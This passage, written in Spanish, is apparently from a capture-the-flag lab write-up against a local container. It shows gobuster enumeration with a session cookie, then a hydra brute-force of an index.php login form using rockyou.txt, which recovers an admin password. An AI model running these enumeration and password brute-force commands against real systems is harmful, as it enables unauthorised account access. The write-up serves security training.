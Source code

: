 De primeras no nos carga la web, si recargamos ahora si, esto es por la cookie.

Necesitamos la cookie.

Usamos **gobuster** :

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg -H "Cookie: PHPSESSID=79hu5i2sqboe5fs087693u4kvp"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,js,txt,png,jpg,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 1839]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Tenemos el **index.php** y es un login.

# EXPLOTACION

Usamos **hydra** :

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "172.17.0.2" http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=79hu5i2sqboe5fs087693u4kvp:F=Credenciales incorrectas." -F
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-27 10:46:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=79hu5i2sqboe5fs087693u4kvp:F=Credenciales incorrectas.
[STATUS] 4677.00 tries/min, 4677 tries in 00:01h, 14339722 to do in 51:07h, 16 active
[80][http-post-form] host: 172.17.0.2   login: admin   password: christelle
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-27 10:49:00

```
